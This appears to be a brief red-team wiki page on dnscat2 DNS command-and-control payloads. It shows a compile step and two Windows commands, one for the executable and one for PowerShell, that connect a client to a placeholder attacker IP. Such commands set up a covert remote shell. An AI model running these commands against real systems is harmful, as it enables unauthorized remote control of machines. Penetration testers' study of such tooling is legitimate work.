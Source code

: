 ```yaml
---
author(s):
  - Userware
tags:
  - red-team-infrastructure
  - command-and-control
  - interactive-shell
  - dnscat2
---
```

# Payloads

TODO: Provide a usage example with dnscat2

## Compile Payload

### Linux

```
$ cd dnscat2/client/ && make
```

### Windows

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

```
PS C:\> Start-Dnscat2 -Domain <domain>.<tld> -DNSServer <attacker_IP>
```

---
## References

- [lukebaggett: DNSCat2 PowerShell Payload](https://github.com/lukebaggett/dnscat2-powershell)

- [avitex: Rust DNSCat](https://github.com/avitex/rust-dnscat)

- [Pentestlab Blog: Command and Control - DNS](https://pentestlab.blog/2017/09/06/command-and-control-dns/)